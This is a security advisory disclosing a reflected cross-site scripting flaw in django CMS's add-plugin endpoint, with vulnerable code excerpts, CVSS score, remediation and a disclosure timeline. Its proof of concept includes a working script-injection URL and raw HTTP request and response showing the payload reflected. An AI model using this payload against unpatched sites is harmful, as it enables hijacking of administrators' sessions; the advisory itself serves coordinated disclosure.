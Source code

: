 ```yaml
---
layout: post
title:  "Django CMS - Reflected XSS Vulnerability"
tag: advisory
excerpt_separator: <!--more-->

---
```


Django CMS application does not validate `plugin_type` parameter while generating the error messages for invalid plugin type. The vulnerability allows an attacker to execute arbitrary javascript code in the web browser of affected user.  
<!--more-->

### **Vendor Advisory**
 - https://www.django-cms.org/en/blog/2020/07/22/django-cms-security-updates-1/

### **CVSSv3 score**
7.3 (AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N)

### **Affected versions**
 - All django-cms versions prior to 3.7.3

### **Vulnerability summary**
Django CMS application does not validate `plugin_type` parameter while generating the error messages for invalid plugin type. The vulnerability allows an attacker to execute arbitrary javascript code in the web browser of affected user.



### **Technical details**
In the following code snippet, observe that at line:300, the application pass the GET request object `request.GET` as a constructor to  `PluginAddValidationForm` class in order to validate the add plugin request parameters.

```python
file: /cms/admin/placeholderadmin.py

288     def add_plugin(self, request):
289         """
290         Shows the add plugin form and saves it on POST.
291 
292         Requires the following GET parameters:
293             - cms_path
294             - placeholder_id
295             - plugin_type
296             - plugin_language
297             - plugin_parent (optional)
298             - plugin_position (optional)
299         """
300         form = PluginAddValidationForm(request.GET)
301 
302         if not form.is_valid():
303             # list() is necessary for python 3 compatibility.
304             # errors is s dict mapping fields to a list of errors
305             # for that field.
306             error = list(form.errors.values())[0][0]
307             return HttpResponseBadRequest(force_text(error))
308 
309         plugin_data = form.cleaned_data
310         placeholder = plugin_data['placeholder_id']
311         plugin_type = plugin_data['plugin_type']
```

At line: 1268, observe that the application directly concatenates the user input `plugin_type` to the error message, if the user provides an invalid plugin_type paramter.

```python
file: /cms/admin/forms.py

1250 class PluginAddValidationForm(forms.Form):
1251     placeholder_id = forms.ModelChoiceField(
1252         queryset=Placeholder.objects.all(),
1253         required=True,
1254     )
1255     plugin_language = forms.CharField(required=True)
1256     plugin_parent = forms.ModelChoiceField(
1257         CMSPlugin.objects.all(),
1258         required=False,
1259     )
1260     plugin_type = forms.CharField(required=True)
1261 
1262     def clean_plugin_type(self):
1263         plugin_type = self.cleaned_data['plugin_type']
1264 
1265         try:
1266             plugin_pool.get_plugin(plugin_type)
1267         except KeyError:
1268             message = ugettext("Invalid plugin type '%s'") % plugin_type
```



### **Proof of concept**
-  Login to the application using admin credentials and create a page.

-  Add a new plugin to the page.

-  In the new browser tab, open the following url:

  `http://<example_cms>/en/admin/cms/page/add-plugin/?placeholder_id=2&plugin_type=Bootstrap4CodePlugin"><script>alert(document.cookie)</script>&cms_path=/en/?edit&language=en&plugin_language=en`
  
  ```
  GET /en/admin/cms/page/add-plugin/?placeholder_id=2&plugin_type=Bootstrap4CodePlugin"><script>alert(document.cookie)</script>&cms_path=/en/?edit&language=en&plugin_language=en HTTP/1.1
  Host: django-cms.com:8000
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Referer: http://django-cms.com:8000/en/?edit&language=en
  Cookie: django_language=en; csrftoken=liLgHvhAMwI4mGfomHAlfoinhN9Vru7CbzA4FOQ4OP974LFqHZ2e6EsDsKsJpmb4; sessionid=ni8fcfeuk4w6cvjp0cipq19jqjbsuxh5
  Upgrade-Insecure-Requests: 1
  ```

-  Observe that the user input gets reflected in the application's response.
  
  ```
  HTTP/1.1 400 Bad Request
  Date: Fri, 10 Jul 2020 10:15:51 GMT
  Server: WSGIServer/0.2 CPython/3.7.3
  Content-Type: text/html; charset=utf-8
  X-Frame-Options: SAMEORIGIN
  Expires: Fri, 10 Jul 2020 10:15:51 GMT
  Cache-Control: max-age=0, no-cache, no-store, must-revalidate, private
  Content-Length: 83
  Content-Language: en
  Vary: Cookie
  
  Invalid plugin type 'Bootstrap4CodePlugin"><script>alert(document.cookie)</script>'
  ```

  ![poc](/assets/images/django_cms/poc.png)




### **Remediation**
It is recommended to implement **Context Specific** filtering to the user input which needs to be displayed in the application response.



### **Timeline**

|Date|Status|
|:---|:---|
|10-JUL-2020|Reported to vendor|
|10-JUL-2020|Vendor acknowledgement|
|21-JUL-2020|Patch available|
|22-JUL-2020|Public disclosure|